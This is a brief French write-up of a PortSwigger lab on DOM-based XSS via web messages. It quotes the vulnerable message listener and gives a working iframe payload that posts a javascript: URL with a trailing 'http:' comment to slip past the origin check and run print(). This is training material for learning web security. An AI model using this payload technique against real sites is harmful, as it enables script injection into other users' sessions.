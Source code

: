 # Lab

https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

## Solution

Dans les sources de la page d'accueil on voit ce script :

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

On a juste à envoyer un payload et mettre une URL javascript qui va appeler la fonction print() et un commentaire contenant `http:` ou `https:` pour valider le contrôle de la source du message.

```html
<iframe src="https://0aec0010035be671833a0fd7009e00af.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print();//http:', '*')">
</iframe>
```